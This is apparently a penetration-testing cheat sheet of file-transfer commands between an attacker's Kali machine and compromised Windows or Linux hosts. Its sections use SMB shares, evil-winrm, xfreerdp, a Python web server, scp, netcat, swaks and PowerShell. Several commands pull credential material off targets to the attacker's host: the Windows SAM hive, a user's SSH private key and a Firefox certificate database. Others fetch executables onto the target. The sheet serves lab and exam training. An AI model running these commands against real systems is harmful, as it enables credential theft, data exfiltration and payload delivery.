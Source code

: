 ##### **File Transfer From Windows:** Change Username, Password and Share name accordingly if needed.

**Transfer using SMB Shares:**
Run this command in kali machine to open share 'test'.
```
impacket-smbserver test . -smb2support -username username -password password
```
```
net use m: \\192.168.49.116\test /user:username password
```

Run this command in the directory where the file need to be transferred is located
```
impacket-smbserver kali .
```
```
copy \\kali-ip\kali\file\to\copy
```
```
copy C:\file\to\copy\to\our\local_machine \\kali-ip\kali
```

Run this command in Windows system after the connection to copy the file from Windows to Linux.
```
copy file.txt m:\
```

**Transfer using Evil-Winrm:**
Run this command in evil-winrm session to copy the file from Windows to Linux.
```
download C:\windows.old\Windows\System32\SAM /root/oscp/SAM
```

**Transfer using RDP mounting with Xfreerdp:**
Establish a rdp session using the command, then you will get a shared folder between Linux and remote windows system.
```
xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD/v:192.168.212.250 /w:1600 /h:800 /drive:test,/path/to/save/file
```

##### **File Transfer From Linux:** Change path, username, Ip, file name accordingly

**Transfer using Python web Server:**
Run the command on a directory where the file to transfer is located.
```
python3 -m http.server 80
```

Run the command on Powershell session (Windows System).
```
wget -Uri http://you_kali_ip/anything.exe -Outfile C:\Windows\Temp\anything.exe
```
```
wget -Uri http://you_kali_ip/anything.exe -Outfile anything.exe
```

**Transfer using SCP:** 
Transfer a file from remote to local.
```
scp /home/emiller/development/grade-app.apk root@192.168.45.229:/root/
```

Can copy a file from target Linux to our local.
```
scp -P 43022 dademola@192.168.189.125:/home/git/.ssh/id_rsa .
```
```
scp -o StrictHostKeyChecking=no -r elliot@192.168.195.124:/home/elliot/.mozilla/firefox/esmhp32w.default-default/cert9.db /root/Desktop/Tools/firefox_decrypt/
```

**Transfer using Netcat:**
Run this command in receiver Linux machine.
```
nc -lvp 1234 > grade-app.apk
```

Run this command in Sender Linux machine.
```
nc kali_ip 1234 < /home/emiller/development/grade-app.apk
```

**Transfer file via email Using SWAKS:**
```
swaks -t TO EMAIL --from FROM EMAIL -au USERNAME -ap PASSWORD --attach @./FILE_TO_ATTACH --server *TARGET_IP* --body --header "Subject: Problems"
```

**Transfer using Download function in Windows Powershell session:**
```
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://example.com/file.txt', 'C:\path\to\save\file.txt')"
```
```
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://example.com/file.txt', 'C:\path\to\save\file.txt')"
```
